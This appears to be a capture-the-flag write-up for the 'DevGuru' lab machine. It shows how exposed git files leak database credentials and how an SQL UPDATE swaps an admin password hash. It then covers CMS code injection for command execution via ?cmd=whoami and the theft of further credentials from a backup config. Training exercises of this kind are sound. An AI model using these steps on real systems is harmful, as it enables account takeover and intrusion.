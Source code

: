 # DevGuru Writeup

### Credits: Zayotic

## [ Task 1 ] - user.txt

* First run an n̶m̶a̶p̶ rustscan* scan
### Scan Output:
```
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 61 OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
--  snip  --
80/tcp   open  http    syn-ack ttl 61 Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: DevGuru
| http-git: 
|   10.10.37.203:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|     Last commit message: first commit 
|     Remotes:
|       http://devguru.local:8585/frank/devguru-website.git
|_    Project type: PHP application (guessed from .gitignore)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Corp - DevGuru
| vulners: 
|   cpe:/a:apache:http_server:2.4.29: 
|_    	CVE-2017-15710	5.0	https://vulners.com/cve/CVE-2017-15710
8585/tcp open  unknown syn-ack ttl 61
| fingerprint-strings: 
|   GenericLines: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
--  snip  --
```
### Dumping Git
* Git repository found!, Lets dump it and run a git checkout

```
adminer.php  bootstrap  index.php  plugins    server.php  themes
artisan      config     modules    README.md  storage
```
* It seems theres a database.php file in config/
#### config/database.php:

```
        'mysql' => [
            'driver'     => 'mysql',
            'engine'     => 'InnoDB',
            'host'       => 'localhost',
            'port'       => 3306,
            'database'   => 'octoberdb',
            'username'   => 'october',
            'password'   => 'SQ66EBYx4GT3byXH',
            'charset'    => 'utf8mb4',
            'collation'  => 'utf8mb4_unicode_ci',
            'prefix'     => '',
            'varcharmax' => 191,
        ],
```
### Lets click on sql command and start messing with the db
![image](./images/1.png)

### select * from backend_users;

![image2](./images/2.png)

### These creds are useless, trust me...

### Now since we cant use these credentials, why not switch them?
```
UPDATE `backend_users` SET `password` = '$2y$12$8uIf92IlXQT9MKVExDhT8uCcqwG3cZ/QJRs.gR920igyNV89ACI5m' WHERE `password` = '$2y$10$bp5wBfbAN6lMYT27pJMomOGutDF2RKZKYZITAupZ3x8eAaYgN6EKK'
```
### Franks password is now: password
### Lets login to the October CMS

![image3](./images/3.png)

## Now lets click on CMS > About
### Remove everything on the markup page and insert {{ onStart }}
![image4](./images/4.png)

### Now lets click on the code section and input the following php
![image5](./images/5.png)

### Now we should be able to get an RCE on this system
```
http://devguru.thm/about?cmd=whoami
```
### With this, we also get a shell (no python, just python3)

![image7](./images/7.png)

### Now that we have a shell, we can perform the normal enumeration
### The interesting thing was found with:
```
find / -name *.bak 2>/dev/null | tee /dev/shm/log.txt
```
### There seems to be an app.ini.bak in /var/backups

```
cat app.ini.bak | grep data -C 10


[database]
; Database to use. Either "mysql", "postgres", "mssql" or "sqlite3".
DB_TYPE             = mysql
HOST                = 127.0.0.1:3306
NAME                = gitea
USER                = gitea
; Use PASSWD = `your password` for quoting if you use special characters in the password.
PASSWD              = UfFPTF8C8jjxVF2m
; For Postgres, schema to use if different from "public". The schema must exist beforehand,
; the user must have creation privileges on it, and the user search path must be set
; to the look into the schema first. e.g.:ALTER USER user SET SEARCH_PATH = schema_name,"$user",public;
SCHEMA              = 
```
### Nice, lets login to the mysql server
* This can also be done with adminer but gui bad and only soopr hakrs so were goin with cli
```
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 2909
Server version: 10.1.47-MariaDB-0ubuntu0.18.04.1 Ubuntu 18.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> 
```
### And were in, lets take a look around
* show databases;

* use gitea;

* show tables;

* select * from user;

```
+----+------------+-------+-----------+---------------------+--------------------+--------------------------------+------------------------------------------------------------------------------------------------------+------------------+----------------------+------------+--------------+------------+------+----------+---------+------------+------------+----------+-------------+--------------+--------------+-----------------+----------------------+-------------------+-----------+----------+---------------+----------------+--------------------+---------------------------+----------------+----------------------------------+---------------------+-------------------+---------------+---------------+-----------+-----------+-----------+-------------+------------+-------------------------------+-----------------+-------+
| id | lower_name | name  | full_name | email               | keep_email_private | email_notifications_preference | passwd                                                                                               | passwd_hash_algo | must_change_password | login_type | login_source | login_name | type | location | website | rands      | salt       | language | description | created_unix | updated_unix | last_login_unix | last_repo_visibility | max_repo_creation | is_active | is_admin | is_restricted | allow_git_hook | allow_import_local | allow_create_organization | prohibit_login | avatar                           | avatar_email        | use_custom_avatar | num_followers | num_following | num_stars | num_repos | num_teams | num_members | visibility | repo_admin_change_team_access | diff_view_style | theme |
+----+------------+-------+-----------+---------------------+--------------------+--------------------------------+------------------------------------------------------------------------------------------------------+------------------+----------------------+------------+--------------+------------+------+----------+---------+------------+------------+----------+-------------+--------------+--------------+-----------------+----------------------+-------------------+-----------+----------+---------------+----------------+--------------------+---------------------------+----------------+----------------------------------+---------------------+-------------------+---------------+---------------+-----------+-----------+-----------+-------------+------------+-------------------------------+-----------------+-------+
|  1 | frank      | frank |           | frank@devguru.local |                  0 | enabled                        | abbf51c3e17081e50408ce68aca97043f88551694894f47456253ee0e864ee138d76a3460555d509a2e7bc01356ae155a4de | pbkdf2           |                    0 |          0 |            0 |            |    0 |          |         | tGiikyeYuF | PyWam2zNcZ | en-US    |             |   1605832197 |   1607275886 |      1607275886 |                    1 |                -1 |         1 |        1 |             0 |              0 |                  0 |                         1 |              0 | 13d0a7d733ae3042a5af559bddea54b3 | frank@devguru.local |                 1 |             0 |             0 |         0 |         1 |         0 |           0 |          0 |                             0 |                 | gitea |
+----+------------+-------+-----------+---------------------+--------------------+--------------------------------+------------------------------------------------------------------------------------------------------+------------------+----------------------+------------+--------------+------------+------+----------+---------+------------+------------+----------+-------------+--------------+--------------+-----------------+----------------------+-------------------+-----------+----------+---------------+----------------+--------------------+---------------------------+----------------+----------------------------------+---------------------+-------------------+---------------+---------------+-----------+-----------+-----------+-------------+------------+-------------------------------+-----------------+-------+
```






















